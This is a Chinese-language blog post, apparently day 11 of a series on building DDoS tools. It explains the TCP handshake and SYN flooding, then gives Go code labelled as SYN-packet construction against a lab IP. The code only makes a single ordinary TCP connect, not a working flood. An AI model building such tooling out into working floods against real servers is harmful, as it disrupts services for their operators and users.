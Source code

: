 ```yaml
---
author: Sunny Tsai
title: "[Day 11] 閑的沒事就寫封包 - SYN Flood之建立封包"
date: 2023-09-24
math: true
tags: [
    "cloud",
    "syn",
    "syn flood"
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-DDOS：閑的沒事就開始DDOS"]
---
```

# SYN Flood

盡其所能的丟SYN封包，消耗目標伺服器所有可用的資源。使TCP三方交握無法正常工作，使標的無法回應或緩慢回應合法流量。

## TCP三方交握（Three Way Handshake）
![](https://imgur.com/jE4zbhO.png)

1. client向Server發送SYN封包，請求連線。
2. Server向Client發送封包SYN/ACK封包，確認通訊中。
3. Client向Server發送ACK封包，建立通話。

### SYN Flood
![](https://imgur.com/1IQOzfh.png)
從TCP 三方交握的方式來看，一但任意地址向Server端發送SYN封包請求通話，Server端就會回傳一個SYN/ACK回應請求，並開啟一個PORT等待接收ACK封包。如此，攻擊者只要發送大量的SYN封包，Server端就會開啟一個臨時的PORT等待接收回應直到連線逾時，只要把Server端的PORT都佔用，將無法收到合法流量的封包。

註：當有ㄧ方的機器開啟連線，但另一方的機器卻未開啟，這個連線可以視為**半開放連線**。所以SYN Flood也可以視為**半開放式攻擊**

### SYN Packet

main.go
```go
package main

import (
	"fmt"
	"sync"

	"github.com/windasunny/ddos/packet"
)

func buildSynPacket(targetIp string, targetPort int) {

	err := packet.Syn(targetIp, targetPort)
	if err != nil {
		fmt.Println(err)
	}
}

func main() {

	// SYN
	var wg sync.WaitGroup
	wg.Add(1)

	go func() {
		buildSynPacket("10.211.55.10", 12345)
		wg.Done()
	}()
	wg.Wait()
}

```

考慮了一下，random port先不下全域鎖。
sysSyn.go
```golang
// @Title   SYN.go
// @Description   Build a SYN packet with
// @Author   Sunny Tsai
// @Update   2023-09-24
package packet

import (
	"fmt"
	"math/rand"
	"net"
	"time"

	"golang.org/x/sys/unix"
)

// @title   Syn
// @description   Build a SYN packet with sys/unix
// @auth     Sunny Tsai     Time(2023/09/24)
// @param    targetIP        string        send to target ip address
// @param    targetPort      int           send to target port
// @return   error           error
func Syn(targetIP string, targetPort int) error {

	random := rand.New(rand.NewSource(time.Now().UnixNano()))

	srcIP := "0.0.0.0"
	srcPort := random.Intn(65535)

	// build socket
	fd, err := unix.Socket(unix.AF_INET, unix.SOCK_STREAM, unix.IPPROTO_TCP)
	if err != nil {
		return fmt.Errorf("Failed to create socket: %v", err)
	}
	defer unix.Close(fd)

	// set source ip and port
	localAddr := &unix.SockaddrInet4{Port: srcPort}
	copy(localAddr.Addr[:], net.ParseIP(srcIP).To4())

	err = unix.Bind(fd, localAddr)
	if err != nil {
		return fmt.Errorf("Failed to bind socket: %v", err)
	}

	sendTo(targetIP, targetPort, fd)

	return nil
}

// @title   sendTo
// @description   Send SYN packet to target
// @auth     Sunny Tsai     Time(2023/09/24)
// @param    targetIP        string        send to target ip address
// @param    targetPort      int           send to target port
// @param    fd              int           socket fd
func sendTo(targetIP string, targetPort int, fd int) {
	// set target ip and port, then connect
	remoteAddr := &unix.SockaddrInet4{Port: targetPort}
	copy(remoteAddr.Addr[:], net.ParseIP(targetIP).To4())

	_ = unix.Connect(fd, remoteAddr)
}

```
